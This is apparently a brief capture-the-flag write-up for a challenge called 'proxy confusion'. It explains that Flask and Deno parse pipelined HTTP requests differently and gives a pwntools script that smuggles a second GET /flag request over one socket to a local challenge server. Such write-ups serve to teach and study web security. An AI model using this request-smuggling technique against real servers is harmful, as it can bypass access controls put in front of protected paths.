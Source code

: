 # proxy confusion

## Description
Which web server would you like?

## Writeup

When 2 requests are sent in the same socket connection without Content-Length, flask ignores the second one while deno treat it as a next request.
```python
from pwn import *

io = remote("localhost", 4000)
io.send(b"""
GET / HTTP/1.1

GET /flag HTTP/1.1
        """.strip().replace(b"\n", b"\r\n") + b"\r\n\r\n")

r = io.recv()
print(r.decode())
```